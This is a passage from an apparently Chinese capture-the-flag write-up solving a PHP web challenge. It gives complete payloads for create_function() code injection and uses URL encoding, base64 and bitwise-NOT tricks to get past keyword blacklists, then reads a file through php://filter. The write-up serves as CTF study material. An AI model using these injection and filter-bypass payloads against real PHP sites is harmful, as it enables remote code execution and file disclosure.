 而本题的`$code('', $arg)`; //此处存在create_function()注入中可以通过控制`$arg`来进行代码注入
首先保证传入的`$code`为`create_funtion`，
其次是`$arg`参数，本题中过滤了`cat、flag、scan`等关键字，无法直接命令执行得到flag的值，在网上查阅后找到了合适的函数`get_defined_vars()`直接输出所有变量，构造payload如下

```
fl%61g[c%6fde]=create_function&fl%61g[%61rg]=}var_dump(get_defined_vars());//
```

###  8.出flag

完整payload

```
GET:
?deb%75=aq%75a_is_c%75te%0a
&file=data://text/plain,deb%75_deb%75_aq%75a
&sh%61na[]=1
&p%61sswd[]=2
&fl%61g[c%6fde]=create_function
&fl%61g[%61rg]=}var_dump(get_defined_vars());//

POST:
debu=1&file=1
```

拿到rea1fl4g.php，我们需要尝试打开文件

可以继续使用`get_defined_vars()`，但前提是必须包含这个文件。
但在**Part 7**的黑名单中屏蔽了`inc`故无法使用`include`，我们可用`require`代替。黑名单还屏蔽了点号，故文件名无法直接输入，可以使用base64将文件名编码绕过。

修改payload：

```
fl%61g[c%6fde]=create_function
&fl%61g[%61rg]=}require(base64_dec%6fde(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
//%6c为url编码的o，为了绕过黑名单
```

看到["f4ke_flag"]=> string(28) "BJD{1am_a_fake_f41111g23333}" }，但是这是错误的

还需要继续读取文件，利用php://filter

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php);
```

为了绕过过滤，用取反操作

```
<?php
$a="php://filter/read=convert.base64-encode/resource=rea1fl4g.php";

echo urlencode(~$a);
?>
//%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

```
